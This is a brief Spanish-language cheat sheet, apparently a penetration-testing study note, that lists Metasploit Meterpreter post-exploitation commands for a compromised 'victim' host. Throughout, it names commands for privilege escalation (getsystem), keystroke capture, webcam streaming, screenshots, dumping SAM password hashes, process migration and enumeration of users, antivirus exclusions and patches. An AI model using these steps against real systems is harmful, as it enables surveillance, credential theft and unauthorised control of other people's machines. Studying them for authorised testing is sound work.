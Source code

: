 Meterpreter
checksum md5 /bin/bash -Extraer el contenido en md5 de un archivo
ps -Procesos
migrate num -Para migrar a alguno de los procesos enumerados con "ps"
ls
shell --> /bin/bash -i
sessions -u 1 -Pasa sesiones de shell a sesiones de meterpreter



POSTEXPLOTACION WINDOWS
En una sesion de meterpreter ya dentro de el host victima

sysinfo
getuid
help -Documentacion sobre lo que se puede hacer

getsystem -Elevar privilegios en el host (Name Pipe Impersonation)
webcam_stream -Ejecutar comandos sobre la camara web
enumdesktops
keyscan_dump
screenshot
hasdump -Descifrar hashes en SAM
show_mount -Verificar los discos
ps -procesos activos
migrate 222 -No se que sea especificamente, pero migra a otras aplicaciones ? con diferentes privilegios

search upgrade platform:windows
search migrate 
search win_privs
	set SESSION 1
search enum_logged_on_users
search checkvm -Verificar si el objetivo es una vm
search enum_applications
loot -Acceder a los datos cuando se almacenan en una instancia de metasploit (no se muestran en pantalla, sino que se guardan directamente)
search enum_av_excluded -Se excluyen las restricciones qye evitar eumerar totos los archivos bloqueados por anti virus
search enum_computer
search enum_patches -Enumerar parches aplicados al sistema
meterpreter> systeminfo -Enumeracion manual
set enum_shares
search enable_rdp -Verificar si esta disponible el Remote Desktop Protocol
















